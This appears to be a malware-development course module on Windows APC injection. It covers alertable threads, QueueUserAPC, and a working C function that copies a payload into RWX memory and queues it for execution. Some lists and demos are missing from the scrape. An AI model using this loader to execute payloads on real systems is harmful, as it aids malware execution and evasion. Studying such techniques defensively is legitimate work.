




Introduction
This module introduces another way to run a payload without having to create a new thread. This technique is known as APC injection.
What is APC?
Asynchronous Procedure Calls are a Windows operating system mechanism that enables programs to execute tasks asynchronously while continuing to run other tasks. APCs are implemented as kernel-mode routines that are executed in the context of a specific thread. Malware can leverage APCs to queue a payload and then have it execute when scheduled.
Alertable State
Not all threads can run a queued APC function, only threads in an alertable state can do so. An alertable state thread is a thread that is in a wait state. When a thread enters an alertable state it is placed in a queue of alertable threads, allowing it to run queued APC functions.
What is APC Injection?
To queue an APC function to a thread, the address of the APC function must be passed to the QueueUserAPC WinAPI. According to Microsoft's documentation:
An application queues an APC to a thread by calling the QueueUserAPC function. The calling thread specifies the address of an APC function in the call to QueueUserAPC.
The injected payload's address will be passed to QueueUserAPC in order to have it executed. Before doing so, a thread in the local process must be placed in an alertable state.
QueueUserAPC
QueueUserAPC is shown below and it accepts 3 arguments:
pfnAPC - The address of the APC function to be called.hThread - A handle to an alertable thread or suspended thread.dwData - If the APC function requires parameters, they can be passed here. This value will be NULL in this module's code.DWORD QueueUserAPC(
[in] PAPCFUNC pfnAPC,
[in] HANDLE hThread,
[in] ULONG_PTR dwData
);Placing a Thread In An Alertable State
The thread that will be executing the queued function needs to be in an alertable state. This can be done by creating a thread and using one of the following WinAPIs:
These functions are used for synchronizing threads and improving performance and responsiveness in applications, however in this case, passing a handle to a dummy event is sufficient. Passing the correct parameters to these functions is not necessary since simply using one of the functions is enough to place the thread in an alertable state.
To create a dummy event, the CreateEvent WinAPI will be used. The newly created event object is a synchronization object that allows threads to communicate with each other by signaling and waiting for events. Since the output of CreateEvent is irrelevant, any valid event can be passed to the previously shown WinAPIs.
Using The Functions
Any of the following functions can be used as a sacrificial alertable thread to run the queued APC payload. See below for examples of how to use the functions to place the current thread in an alertable state.
Using Sleep
VOID AlertableFunction1() {
Sleep(-1);
}Using SleepEx
VOID AlertableFunction2() {
SleepEx(INFINITE, TRUE);
}Using WaitForSingleObject
VOID AlertableFunction3() {
HANDLE hEvent = CreateEvent(NULL, NULL, NULL, NULL);
if (hEvent){
WaitForSingleObject(hEvent, INFINITE);
CloseHandle(hEvent);
}
}Using MsgWaitForMultipleObjects
VOID AlertableFunction4() {
HANDLE hEvent = CreateEvent(NULL, NULL, NULL, NULL);
if (hEvent) {
MsgWaitForMultipleObjects(1, &hEvent, TRUE, INFINITE, QS_INPUT);
CloseHandle(hEvent);
}
}Using SignalObjectAndWait
VOID AlertableFunction5() {
HANDLE hEvent1 = CreateEvent(NULL, NULL, NULL, NULL);
HANDLE hEvent2 = CreateEvent(NULL, NULL, NULL, NULL);
if (hEvent1 && hEvent2) {
SignalObjectAndWait(hEvent1, hEvent2, INFINITE, TRUE);
CloseHandle(hEvent1);
CloseHandle(hEvent2);
}
}Suspended Threads
QueueUserAPC can also succeed if the target thread is created in a suspended state. If this method is used to execute the payload, QueueUserAPC should be called first and then the suspended thread should be resumed next. Again, the thread must be created in a suspended state, suspending an existing thread will not work.
The code shared in this module demonstrates APC injection via an alertable and suspended thread.
APC Injection Implementation Logic
To summarize, the implementation logic will be as follows:
QueueUserAPC.APC Injection Function
RunViaApcInjection is a function that performs APC Injection and requires 3 arguments:
hThread - A handle to an alertable or suspended thread.pPayload - A pointer to the payload's base address.sPayloadSize - The size of the payload.BOOL RunViaApcInjection(IN HANDLE hThread, IN PBYTE pPayload, IN SIZE_T sPayloadSize) {
PVOID pAddress = NULL;
DWORD dwOldProtection = NULL;
pAddress = VirtualAlloc(NULL, sPayloadSize, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
if (pAddress == NULL) {
printf("\t[!] VirtualAlloc Failed With Error : %d \n", GetLastError());
return FALSE;
}
memcpy(pAddress, pPayload, sPayloadSize);
if (!VirtualProtect(pAddress, sPayloadSize, PAGE_EXECUTE_READWRITE, &dwOldProtection)) {
printf("\t[!] VirtualProtect Failed With Error : %d \n", GetLastError());
return FALSE;
}
// If hThread is in an alertable state, QueueUserAPC will run the payload directly
// If hThread is in a suspended state, the payload won't be executed unless the thread is resumed after
if (!QueueUserAPC((PAPCFUNC)pAddress, hThread, NULL)) {
printf("\t[!] QueueUserAPC Failed With Error : %d \n", GetLastError());
return FALSE;
}
return TRUE;
}Demo - APC Injection Using An Alertable Thread


Demo - APC Injection Using a Suspended Thread

